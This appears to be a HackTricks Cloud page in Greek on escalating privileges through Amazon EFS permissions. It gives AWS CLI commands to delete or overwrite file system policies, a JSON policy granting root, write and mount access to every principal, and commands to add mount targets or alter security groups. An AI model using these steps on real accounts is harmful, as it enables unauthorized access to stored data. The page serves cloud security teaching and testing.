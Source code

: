 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Περισσότερες **πληροφορίες σχετικά με το EFS** στο:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Θυμηθείτε ότι για να συνδέσετε ένα EFS πρέπει να βρίσκεστε σε ένα υποδίκτυο όπου το EFS είναι εκτεθειμένο και να έχετε πρόσβαση σε αυτό (ομάδες ασφαλείας). Αν αυτό συμβαίνει, από προεπιλογή, θα μπορείτε πάντα να το συνδέσετε, ωστόσο, αν προστατεύεται από πολιτικές IAM, χρειάζεστε τις επιπλέον άδειες που αναφέρονται εδώ για να έχετε πρόσβαση σε αυτό.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Με οποιαδήποτε από αυτές τις άδειες, ένας επιτιθέμενος μπορεί να **αλλάξει την πολιτική του συστήματος αρχείων** για να **σας δώσει πρόσβαση** σε αυτό, ή απλώς να **το διαγράψει** ώστε να παραχωρηθεί η **προεπιλεγμένη πρόσβαση**.

Για να διαγράψετε την πολιτική:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Για να το αλλάξετε:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Με αυτή την άδεια, ένας επιτιθέμενος θα είναι σε θέση να **συνδέσει το EFS**. Εάν η άδεια εγγραφής δεν παρέχεται από προεπιλογή σε όλους όσους μπορούν να συνδέσουν το EFS, θα έχει μόνο **πρόσβαση ανάγνωσης**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Οι επιπλέον άδειες `elasticfilesystem:ClientRootAccess` και `elasticfilesystem:ClientWrite` μπορούν να χρησιμοποιηθούν για να **γράψουν** μέσα στο σύστημα αρχείων αφού έχει προσαρτηθεί και να **προσεγγίσουν** αυτό το σύστημα αρχείων **ως root**.

**Πιθανές Επιπτώσεις:** Έμμεση εκμετάλλευση δικαιωμάτων εντοπίζοντας ευαίσθητες πληροφορίες στο σύστημα αρχείων.

### `elasticfilesystem:CreateMountTarget`

Αν ένας επιτιθέμενος βρίσκεται σε ένα **υποδίκτυο** όπου **δεν υπάρχει στόχος προσαρτήσεως** του EFS. Θα μπορούσε απλά να **δημιουργήσει έναν στο υποδίκτυό του** με αυτή την άδεια:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Πιθανές Επιπτώσεις:** Έμμεσος privesc εντοπίζοντας ευαίσθητες πληροφορίες στο σύστημα αρχείων.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Σε ένα σενάριο όπου ένας επιτιθέμενος διαπιστώνει ότι το EFS έχει σημείο προσάρτησης στο υποδίκτυό του αλλά **κανένας κανόνας ασφαλείας δεν επιτρέπει την κίνηση**, θα μπορούσε απλά να **αλλάξει αυτό τροποποιώντας τις επιλεγμένες ομάδες ασφαλείας**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Πιθανές Επιπτώσεις:** Έμμεση ανύψωση δικαιωμάτων εντοπίζοντας ευαίσθητες πληροφορίες στο σύστημα αρχείων.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
